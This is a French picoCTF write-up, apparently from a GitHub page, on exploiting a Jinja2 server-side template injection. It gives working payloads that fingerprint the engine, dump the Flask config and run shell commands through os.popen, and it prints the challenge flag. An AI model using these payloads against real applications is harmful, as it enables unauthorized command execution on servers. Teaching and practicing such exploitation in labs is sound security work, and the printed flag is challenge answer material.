





## Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website#

## Accéder au site

Lorsqu'on accède à la plateforme, on nous demande de saisir ce qu'on souhaite annoncer puis il nous l'affiche. 



Lorsqu'on teste "yo" on voit la sortie exacte yo qu'il réaffiche en gras dans `/announce`. Pasted 

Ce qui signifie que le programme récupère notre entrée puis régénère directement une page HTML. Vu qu'on voit un peu le fonctionnement, on va directement viser une des vulnérabilités qui peut affecter ce cas qui est le SSTI (Server Side Template Injection).

## Phase 1 - Identifier la vulnérabilité

Nous allons utiliser le test basique `{{7*7}}`. Si la sortie est `49`, cela signifie qu'on a une vulnérabilité SSTI, sinon il n'y en a pas. 

**Sortie** 


Boom on a bien `49`, ce qui nous indique une vulnérabilité SSTI.

## Phase 2 - Identifier le moteur de template utilisé

Une fois la vulnérabilité identifiée, nous allons identifier le moteur de template utilisé (le template engine est le framework utilisé pour générer la page de façon dynamique, on en distingue plusieurs selon le type de langage utilisé comme Twig, Jinja2...).

Pour identifier le template engine, nous allons tester ce payload basique : `{{7*'7'}}`

Si la sortie est `777777`, il s'agit d'un template engine Python (Jinja2), sinon si c'est `49` il s'agit de Twig (PHP).

Booom on a `777777` comme sortie, cela signifie que le template engine utilisé est **Jinja2**.

> **NB :** Il est nécessaire d'identifier le template engine car les syntaxes varient en fonction de chaque langage.

## Phase 3 - Exploitation

Une fois la vulnérabilité identifiée ainsi que le template engine, nous allons commencer l'exploitation. Nous pouvons trouver ces payloads depuis l'outil PayloadAllTheThings.

### 1. Vérifier les variables d'environnement dans le config

**Payload :**

```text
{{config.items()}}
```

**Sortie :**

```
dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```

Le flag ne s'y trouve pas caché. Il faut donc pousser l'introspection pour obtenir une exécution de commande (RCE).

### 2. Lister toutes les classes (Introspection)

**Payload :**

```text
{{ "".__class__.__mro__[1].__subclasses__() }}
```

Cette commande permet d'inspecter l'environnement d'exécution Python global et de chercher des modules système (`os` ou `subprocess`).

### 3. Lister les fichiers du serveur (RCE)

Plutôt que d'utiliser une chaîne de sous-classes complexe, nous exploitons l'objet global `cycler` nativement présent dans Jinja2 pour importer directement le module `os` et appeler la commande `ls -la`.

**Payload :**

```text
{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}
```

**Sortie :**

```text
# total 12 
drwxr-xr-x 1 root root 25 Jun 21 12:41 . 
drwxr-xr-x 1 root root 23 Jun 21 12:41 .. 
drwxr-xr-x 2 root root 32 Jun 21 12:41 __pycache__ 
-rwxr-xr-x 1 root root 1241 May 1 2025 app.py 
-rw-r--r-- 1 root root 58 Aug 21 2025 flag 
-rwxr-xr-x 1 root root 268 May 1 2025 requirements.txt
```



L'analyse de la racine révèle un fichier nommé `flag`.

### 4. Lire le flag

**Payload :**

```text
{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}
```



## 🏁 Flag

```text
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
```
